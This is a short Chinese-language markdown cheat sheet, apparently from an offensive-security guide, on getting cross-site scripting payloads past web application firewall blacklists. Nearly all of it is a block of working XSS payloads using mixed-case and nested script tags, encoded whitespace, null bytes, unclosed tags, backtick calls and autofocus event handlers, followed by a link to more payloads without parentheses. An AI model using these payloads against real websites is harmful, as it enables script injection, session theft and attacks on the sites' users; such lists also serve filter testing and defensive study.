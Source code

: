 ## WAF绕过

### 黑名单绕过

```javascript
//随机大小写
<script> --> <ScrIpT>
<img --> <ImG

//双标签
<script><script>
<scr<script>ipt>
<SCRscriptIPT>alert(1)</SCRscriptIPT>

//替换空格分隔属性
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09

//父标签
<svg><x><script>alert('1'&#41</x>

//奇怪属性
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///注意换行符
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

//不关闭标签， " <" 或 " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

//额外打开
<<script>alert("XSS");//<</script>

//编写奇怪的标签
<</script/script><script>
<input type=image src onerror="prompt(1)">

//使用 `` 代替括号
onerror=alert`1`

//使用多个标签
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```


### 不带括号

[我括号呢](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/payloads/XSS/Without-Parentheses.md)
